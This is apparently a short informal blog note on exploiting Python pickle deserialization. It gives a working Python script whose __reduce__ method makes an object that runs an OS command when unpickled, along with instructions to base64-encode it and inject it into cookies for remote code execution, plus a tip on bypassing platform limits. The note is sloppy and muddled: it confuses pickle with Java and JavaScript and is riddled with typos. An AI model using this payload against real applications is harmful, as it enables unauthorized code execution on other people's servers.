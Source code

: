 ```yaml
---
title: pickle serializatoin
published: 2024-06-24
description: 'some picle stuff with serializatoin in java /javascript'
image: './move.gif'
tags: [serialization,exploit]
category: 'serialisation'
draft: false
---
```


pickle shit is basically a python / could as well be js i guess , it helps serialize and reserialize objects , you can check js files or decode files to identify the pickle format which is usually something like that:
```json
	Hack
(dp1
S'test1'
p2
S'test'
p3
sS'test2'
p4
S'retest'
p5
sb.
```

+ one thing to pay attention to is that , to pickle you payload and get the shell or the RCE we are after you need to pickle on the same platform as the server runs at , win/unix .
+ so to create a milecious object just use the script :
```python
import cPickle
import os
class Blah(object):
  def __reduce__(self):
    return (os.system,("command to run ",)) 
h = Blah()
print cPickle.dumps(h)
```
now all you need is execute this and encode it as base64 and put in where it shall be exploited like in cookies for example.
+ you can use You can bypass the limitation of platform by using subprocess with \_\_import\_\_
+  finding what is managed by the application/framework natively (the session mechanism) and what has been added by the developer is the KEY.
+ 

